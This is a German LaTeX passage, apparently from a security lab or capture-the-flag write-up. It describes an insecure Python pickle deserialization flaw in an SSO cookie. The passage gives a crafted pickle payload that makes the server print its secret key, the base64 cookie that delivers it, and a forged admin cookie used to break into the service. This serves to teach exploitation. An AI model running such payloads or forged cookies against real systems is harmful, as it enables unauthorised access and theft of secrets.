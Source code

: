 \documentclass[12pt]{article}
\begin{document}
Wir haben erkannt, dass der Server erwartet, dass ein Objekt der Klasse EncDataHolder erwartet, daher haben wir folgenden zusammengesetzten Code verwendet (Listing \ref{ssofPrint}).
\begin{lstlisting}[caption={Vollständiger Code zur Ausgabe von \_\_KEY\_\_ mit Hilfe von print},label=ssofPrint]
c__builtin__
print
(ccommon.ssoData
__KEY__
tRccopy_reg
_reconstructor
p1
(ccommon.ssoData
EncDataHolder
p2
ccommon.ssoData
object
p3
NtRp4
(dp5
S'timestamp'
p6
F1306488912.4643281
sS'data'
p7
S'j\x86\xe6\x8fp\x94\x1bP'
p8
sb.
\end{lstlisting}
Über eine Kodierung mit base64 konnten wir ein Cookie (Listing \ref{ssoCookie}) erstellen, welches uns den geheimen Schlüssel im Browser vor der Fehlermeldung ausgibt (Abbildung \ref{ssoResult}).
\begin{lstlisting}[caption={Cookie mit print-Ausgabe},label=ssoCookie]
admin:Y19fYnVpbHRpbl9fCnByaW50CihjY29tbW9uLnNzb0RhdGEKX19
LRVlfXwp0UmNjb3B5X3JlZwpfcmVjb25zdHJ1Y3RvcgpwMQooY2NvbW
1vbi5zc29EYXRhCkVuY0RhdGFIb2xkZXIKcDIKY2NvbW1vbi5zc29EYXR
hCm9iamVjdApwMwpOdFJwNAooZHA1ClMndGltZXN0YW1wJwpwNgp
GMTMwNjQ4ODkxMi40NjQzMjgxCnNTJ2RhdGEnCnA3ClMnalx4ODZc
eGU2XHg4ZnBceDk0XHgxYlAnCnA4CnNiLg==
\end{lstlisting}
 \begin{figure}
  \begin{center}
    \includegraphics[scale=0.25]{images/ssoResult.png}
  \end{center}
  \caption{Ausgabe des Schlüssels im Browser}
  \label{sigIn}
\end{figure}

Mit Hilfe der zuvor erlangten Artefakte konnte wir uns lokal ein EncDataHolder nachbauen und erstellten uns mit dem geheimen Schlüssel nun eine Instanz der Klasse EncDataHolder, welche wir dann mit cPickle serialisierten und als Cookie (Listing \ref{ssoCookie2} verwendeen. Dadurch konnten wir in den secureService als Admin eindringen. 
\begin{lstlisting}[caption={Cookie mit korrektem geheimen Schlüssel},label=ssoCookie2]
admin:Y2NvcHlfcmVnCl9yZWNvbnN0cnVjdG9yCnAxCihjY29tbW9uLn
Nzb0RhdGEKRW5jRGF0YUhvbGRlcgpwMgpjX19idWlsdGluX18Kb2JqZW
N0CnAzCk50UnA0CihkcDUKUyd0aW1lc3RhbXAnCnA2CkYxMzA2NDk
3MjMxLjI4NTYzNjkKc1MnZGF0YScKcDcKUydfXHg5M1x4ODRceGE2XH
g4MEJceGVlKicKcDgKc2Iu
\end{lstlisting}
\end{document}
